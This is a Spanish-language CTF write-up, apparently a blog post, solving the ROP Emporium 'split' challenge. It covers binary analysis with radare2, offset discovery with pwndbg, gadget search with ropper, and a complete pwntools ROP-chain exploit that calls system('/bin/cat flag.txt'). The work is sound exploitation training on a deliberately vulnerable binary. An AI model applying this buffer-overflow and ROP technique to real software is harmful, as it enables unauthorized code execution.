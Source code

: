 ```yaml
---
title: ROPemporium split - Usando ROP para escribir en RDI
author: c4rta
date: 2023-01-15
categories: [Explotacion binaria]
tags: [ROP]
---
```


## A tomar en cuenta

- La dirección máxima en 64 bits es ```0x00007FFFFFFFFFFF``` y el RIP no puede sobrescribir una dirección mayor que este valor. 
- Los parámetros de función se pasan a los registros. Estos registros son RDI, RSI, RDX, RSX, R8, R9, respectivamente. Si el número de parámetros es superior a 6, se guardan en el stack

## Analizando el binario

Primeramente veremos con que protecciones cuenta el binario, esto con ```checksec```:

```
checksec --file=split                                             ─╯
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		3		split
```
Como se puede ver tiene ```NX``` asi que no podemos ejecutar codigo en el stack, asi que para resolverlo vamos a usar ROP (Programacion Orientada el Retorno).

Ahora metere el binario a radare2 para ver lo que esta haciendo en el main:

![](/assets/img/commons/spilt/radare1.png)

Aqui lo unico interesante es que se esta llamando a la funcion ```pwnme``` en la direccion ```0x004006d2```. Y lo demas simplemente es el mensajito de bienvenida.

En la funcion ```pwnme``` tenemos esto:

![](/assets/img/commons/spilt/radare2.png)

- En color rojo se esta declarando un puntero llamado ```buf``` que esta 0x20 por debajo del ```RBP```
- En color amarillo se esta creando un buffer de ```0x20``` (32 bytes) el cual se almacena en ```buf```
- En color verde es cuando el programa recibe nuestro input el cual lee ```0x60``` bytes en ```buf```.

Esto no es todo, siempre hay que mostrar todas las funciones en un programa, en radare lo hacemos con ```alf```. Veamos:

![](/assets/img/commons/spilt/radare3.png)

Vemos como existe una funcion llamada ```usefulFunction``` la cual nunca se llama en el programa, y si vemos codigo tenemos algo como esto:

![](/assets/img/commons/spilt/radare4.png)

Se esta haciendo uso de la funcion ```system``` para llamar a ```/bin/ls```, esto no es lo que queremos, nosotros queremos que llame a ```/bin/cat flag.txt```, y la pregunta es... ¿Como yo se que en el binario se esta llamando a ```/bin/cat flag.txt```?, pues facil, simplemente podemos mostrar los strings con ```rabin2 -z split```:

![](/assets/img/commons/spilt/radare5.png)

Podemos ver que en la seccion ```.data``` esta ```/bin/cat flag.txt```, asi que tenemos que sustituirlo por ```/bin/ls```


## Crafteando el exploit

### Sacando el offset del RIP

Con ```pwndbg``` voy a ocasionar que el buffer pete pasandole la cadena generada por ```cyclic 100```, y deberiamos ver algo como esto:

```
*RBP  0x6161616161616165 ('eaaaaaaa')
*RSP  0x7fffffffda78 ◂— 0x6161616161616166 ('faaaaaaa')
*RIP  0x400741 (pwnme+89) ◂— ret 
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
 ► 0x400741 <pwnme+89>    ret    <0x6161616161616166>
```

Vemos que no sobrescribimos RIP en absoluto. Esto se debe a que sobrescribimos RIP con una dirección no válida mayor que ```0x00007fffffffffff```. Esto hace que el sistema operativo genere una excepción, y por lo tanto, no actualice el valor de RIP en absoluto. 

Asi que para sacar su offset podemos usar el registro ```RSP```, para sacar el offset de ```RSP``` ponemos ```cyclic -l faaaaaaa``` y esto nos da un offset de ```40```, este offset es el mismo que tiene el ```saved-rip```, y tiene el mismo ya que el ```saved rip``` tiene el valor guardado del puntero de instruccion, es decir, adonde regresar, pero este valor se guarda en el stack en una direccion en particular, y esa direccion es ```0x7fffffffda78```, esto lo podemos saber si mostramos el frame y vemos esta parte:

```
 Saved registers:
  rip at 0x7fffffffda78
```
Y si mostramos unos cuantos byes del stack, con el comando ```x/30wx $rsp``` vemos algo como esto:

```
0x7fffffffda78:	0x61616166	0x61616161	0x61616167	0x61616161
0x7fffffffda88:	0x61616168	0x61616161	0x61616169	0x61616161
0x7fffffffda98:	0x6161616a	0x61616161	0x6161616b	0x61616161
0x7fffffffdaa8:	0x6161616c	0x61616161	0xffffdb98	0x00007fff
0x7fffffffdab8:	0x35f3056c	0x394c8b3a	0x00000000	0x00000000
0x7fffffffdac8:	0xffffdba8	0x00007fff	0x00000000	0x00000000
0x7fffffffdad8:	0xf7ffd000	0x00007fff	0x80d1056c	0xc6b374c5
0x7fffffffdae8:	0xb179056c	0xc6b36486
```
En donde en la direccion ```0x7fffffffda78``` tenemos los valores ```0x61616166	0x61616161```, los cuales son los mismos que tiene el ```RSP```, asi que podemos decir que el ```saved rip``` tiene el valor ```0x6161616161616166``` y el ```RSP``` el valor ```faaaaaaa``` (que es lo mismo que ```0x6161616161616166``` pero en decimal), ademas podemos tambien hacer un ```cyclic -l 0x6161616161616166``` y nos dara un offset de 40 al igual que el ```RSP```. Y como ultimo, en este caso le estamos indicando al programa que regrese a ```0x6161616161616166```, lo cual es incorrecto. Y por toda esta explicacion es la razon por la cual el ```saved rip``` y el ```RSP``` tienen el mismo offset (nunca habia explicado esto y es bueno saberlo).

### Direccion de system

Esto es muy facil, para esto, usaremos la direccion de system que se encuentra en la funcion ```usefulFunction```, como se puede ver aca:

![](/assets/img/commons/spilt/radare6.png)

La direccion es: ```0x000000000040074b```

### Direccion de /bin/cat flag.txt

Esto lo hacemos con ```rabin2 -z split``` y copiamos la direccion, la cual es: ```0x00601060```

### Direccion de pop rdi

Como mencione hace un rato, usamos esto para meter en el registro rdi: ```/bin/cat flag.txt```. La direccion de pop rdi la podemos sacar con herramientas como ropper, la cual nos permiten ver todos los gadgets del programa. Usamos el comando ```ropper -f split```.

Vemos como nos encontro el gadget:

```0x00000000004007c3: pop rdi; ret; ``` y su direccion es ```0x00000000004007c3```

## Ejecutando el exploit

Al final nuestro exploit quedo asi:

```py
from pwn import *

p = process("./split")

padding = b"A" * 40
system = 0x000000000040074b
bin_cat = 0x00601060
pop_rdi = 0x00000000004007c3

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_cat)
payload += p64(system)

p.sendline(payload)
print(p.recvall().decode())
```

Y lo que hicimos fue:

- Cambiar el return adress a la dirección de pop rdi; ret.
- Después del return adress, pusimos la dirección de /bin/cat flag.txt
- Después de la dirección de /bin/cat flag.txt, pusimos la dirección de system@plt

De esta manera después de la última instrucción de ```pwnme``` se ejecute (osea el ```ret```), el ```RIP``` saltara a la dirección de ```pop rdi;ret```, simultáneamente el ```RSP``` apuntará ahora a la dirección de ```/bin/cat flag.txt```. Luego se pondrá en ```rdi``` la dirección de ```/bin/cat flag.txt``` y el ```ret``` ejecutará la funcion```system``` que tiene como argumento ```/bin/cat flag.txt``` :point_up: 🤓  

Y al ejecutarlo nos da la flag:

![](/assets/img/commons/spilt/exploit.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/commons/spilt/waifu.gif)
